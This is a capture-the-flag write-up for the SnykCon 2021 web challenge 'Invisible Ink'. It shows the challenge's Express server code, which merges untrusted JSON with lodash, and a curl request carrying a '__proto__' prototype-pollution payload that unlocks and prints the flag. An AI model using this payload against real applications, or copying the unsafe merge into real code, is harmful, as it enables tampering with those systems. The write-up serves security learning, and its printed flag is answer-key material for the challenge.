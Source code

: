 # SnykCon-CTF-2021
* Category: Web 
* Name: Invisible Ink
* Level: None
* Description: None
## Solution
* Overview the challenge provided us a `request` and `response` and `POST` method
![Main function](./challenge.PNG) 
*  I used curl command with `POST` method and seems nothing =))))
![Main function](./1.PNG) 
* Now i read `index.js` file 
```c
'use strict';
const fs = require('fs');
const express = require('express');
const app = express();
const bodyParser = require('body-parser');
const _ = require('lodash');
const options = {};
const flag = fs.readFileSync('./flag', 'utf-8').trim();
const docHtml = fs.readFileSync('./index.html', 'utf-8');

app.use(bodyParser.json());

app.get('/', (req, res) => {
    res.send(docHtml);
});

app.post('/echo', (reg, res) => {
    const out = {
        userID: req.headers['x-forwarded-for'] || req.connection.remoteAddress, time:
            Date.now()
    };

    _.merge(out, req.body);
    if(options.flag){
        out.flag = flag;
    }else {
        out.flag = 'disabled';
    }
    res.json(out);
    process.exit(0);
});
app.listen(8000);
```
* I found two line of code `const _ = require('lodash');`,`_.merge(out, req.body);`,`lodash` is a lib of javascript you can read document about it at `https://lodash.com/` :))
* Then i found some exploit ways involved lodash and i found `CVE-2018-3721`. I realized the challenge have a problem about `Prototype Pollution`
* <https://nvd.nist.gov/vuln/detail/CVE-2018-3721>
* I used `curl`command again and finally, i found a flag ^_^ 
```c
curl -H "Content-Type: application/json" -X POST http://35.211.53.53:8000/echo -d  '{"message": "ping", "__proto__": {"flag":true}}'
```
![Main function](./3.PNG) 
* FLAG `SNYK{6a6a6fff87f3cfdca056a077804838d4e87f25f6a11e09627062c06f142b10dd}`
